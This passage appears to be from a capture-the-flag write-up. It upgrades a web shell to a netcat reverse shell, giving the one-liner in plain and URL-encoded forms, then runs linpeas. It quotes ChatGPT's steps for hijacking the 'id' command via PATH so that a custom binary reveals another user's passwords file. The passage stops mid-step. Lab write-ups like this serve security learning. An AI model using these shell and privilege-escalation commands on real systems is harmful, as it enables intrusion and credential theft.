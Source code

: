 Still no luck. Looks like we’re going to have to laterally move throughout the system with the access we already have as the **www-data** user.

To do this more efficiently, let’s upgrade our shell to a proper one.

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.2.113.254 4444 >/tmp/f  
  
URL encoded (it is a web shell, need to URL encode)  
  
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%2010.2.113.254%204444%20%3E%2Ftmp%2Ff

![](https://miro.medium.com/v2/resize:fit:875/1*1ifTyE6OVYvn5TpYqdTLnQ.png)

That’s more like it! Now that we have our proper shell on the machine, lets run linpeas to see if there are any low hanging fruit we can grab.

![](https://miro.medium.com/v2/resize:fit:875/1*eWuoj5xgb8YmzCVb9thS_Q.png)

As seen with previous writeups, the **“Files with Interesting Permissions”** section of linpeas is always a good one to check out.

![](https://miro.medium.com/v2/resize:fit:875/1*sCMxNdkDixZG9CpNEwfCHg.png)

# Exploitation

Highlighted above is a binary that linpeas detected as unknown, or not installed by default for linux. Checking it out with the `strings` command, we find some interesting information!

![](https://miro.medium.com/v2/resize:fit:845/1*P7UiPgy05kpL98ueeZ12sQ.png)

It looks like the binary is interacting with the `.passwords` file we saw earlier in **think’s** directory. This is confirmed by running the binary, as seen below:

![](https://miro.medium.com/v2/resize:fit:829/1*iIS_lRsPT4v2u7WFR-itmg.png)

After running the binary, it looks like it is trying to read the `.passwords` file from the current users directory using the id command and UIDs. I wonder if there is a way to spoof our UID in order to trick this binary into thinking that we’re think?

At this point, I was a little stuck. I had the right idea, but didn’t know how to execute it. Thankfully, I was able to use the great powers of ChatGPT to point me in the right direction:

> The binary `pwm` is likely using the `id` command to extract the UID and username dynamically. Since it may not be using an absolute path (like `/usr/bin/id`), you can hijack this behavior by providing a fake `id` script in a directory you control.
> 
> Step 1: Create a malicious script that mimics the `id` command but returns the UID and username for the `think` user:

echo '#!/bin/bash' > /tmp/id  
echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> /tmp/id  
chmod +x /tmp/id

> This script will make any calls to `id` return the desired output as if you are the `think` user.
> 
> Step 2: Modify the `PATH` Environment Variable
> 
> Prepend the `/tmp` directory (where your fake `id` script is located) to the `PATH` variable so that the vulnerable binary `pwm` picks it up instead of the real `id` binary:
